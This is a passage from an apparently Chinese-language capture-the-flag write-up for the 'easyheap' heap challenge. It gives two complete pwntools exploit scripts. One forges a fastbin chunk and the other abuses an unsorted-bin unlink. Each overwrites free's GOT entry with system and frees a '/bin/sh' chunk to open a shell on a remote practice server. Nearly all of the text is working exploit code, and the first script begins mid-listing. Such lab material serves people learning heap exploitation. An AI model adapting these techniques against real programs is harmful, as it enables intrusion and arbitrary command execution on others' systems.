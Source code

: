```python
	io.sendlineafter(b'Index :', str(index).encode())
	io.sendlineafter(b'Size of Heap : ', str(size).encode())
	io.sendlineafter(b'Content of heap :', content)

def delete(index):
	io.sendlineafter(b'Your choice :', b'3')
	io.sendlineafter(b'Index :', str(index).encode())

create(0x40, b'colin')		# chunk #0
create(0x60, b'colin')		# chunk #1
delete(1)
edit(0, 0x100, cyclic(0x40) + p64(0) + p64(0x71) + p64(0x6020B5 - 8))	# overflow chunk #1
create(0x60, b'colin')	# new chunk #1
create(0x60, b'\x00' * 3 + p64(0) * 4 + p64(elf.got['free']))	# alloc chunk in bss, overflow chunk #0
edit(0, 0x8, p64(elf.plt['system']))		# edit free().got to system().plt
create(0x60, b'/bin/sh')
delete(3)	# system('/bin/sh')
io.interactive()
```

**方法2：unlink**
通过使用unsorted bin的unlink操作控制heaparray数组，也是一种可行的方法。具体的实现原理请参考我的how2heap系列第5、8篇文章，本题的实现原理与how2heap中unlink的演示高度相似。

exp：
```python
from pwn import *
context(arch='amd64', log_level='debug')

# io = process('./easyheap')
elf = ELF('./easyheap')
io = remote('node4.buuoj.cn', 28974)

def create(size, content):
	io.sendlineafter(b'Your choice :', b'1')
	io.sendlineafter(b'Size of Heap : ', str(size).encode())
	io.sendlineafter(b'Content of heap:', content)

def edit(index, size, content):
	io.sendlineafter(b'Your choice :', b'2')
	io.sendlineafter(b'Index :', str(index).encode())
	io.sendlineafter(b'Size of Heap : ', str(size).encode())
	io.sendlineafter(b'Content of heap :', content)

def delete(index):
	io.sendlineafter(b'Your choice :', b'3')
	io.sendlineafter(b'Index :', str(index).encode())
	
create(0x80, b'colin')	# chunk #0
create(0x80, b'colin')	# chunk #1
create(0x80, b'/bin/sh')	# chunk #2
fakechunk_struct = p64(0)
fakechunk_struct += p64(0x80)	# fake chunk size = 0x80
fakechunk_struct += p64(0x6020E0 - 0x18)	# fake chunk fd, fd->bk = fake chunk
fakechunk_struct += p64(0x6020E0 - 0x10)	# fake chunk bk, bk->fd = fake chunk
fakechunk_struct += cyclic(0x80 - 0x20)
fakechunk_struct += p64(0x80)	# overwrite chunk #1 prev size
fakechunk_struct += p64(0x90)	# overwrite prev_in_use bit = 0
edit(0, 0x90, fakechunk_struct)
delete(1)	# trigger unlink, after deletion chunk #0 should be 0x6020E0 - 0x18 = 0x6020C8
edit(0, 0x20, cyclic(0x18) + p64(elf.got['free']))	# change chunk #0 to free().got
edit(0, 0x8, p64(elf.plt['system']))	# change free().got to system().plt
delete(2)	# system('/bin/sh')
```